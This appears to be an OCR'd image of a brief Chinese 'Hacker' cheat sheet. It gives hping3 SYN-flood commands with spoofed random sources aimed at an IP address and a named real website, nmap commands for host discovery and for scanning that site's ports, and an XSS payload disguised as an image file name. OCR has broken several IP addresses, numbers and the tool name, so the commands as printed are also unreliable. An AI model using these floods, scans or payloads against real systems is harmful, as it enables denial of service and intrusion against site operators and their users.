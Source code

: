 ## Hacker
  
### hping 3 洪水攻击  
  
```  
sudo hping 3 --flood -S --rand-source -p 80 12 1.42.15 5.69  
sudo hping 3 -c 10 00 00 -d 12 0 -S -w 64 -p 80 --flood --rand-source www.integle.com  
```  
  
### 扫描指定网段存活的主机  
  
```  
sudo nmap -sP -Pl -PT 19 2.16 8.1.0/24  
```  
  
### 端口服务扫描  
  
```  
sudo nmap www.integle.com -p 0-65 53 5  
```  
  
### XSS 图片上传  

```  
"><img src=x onerror=alert(location.href)>.jpg  
```  
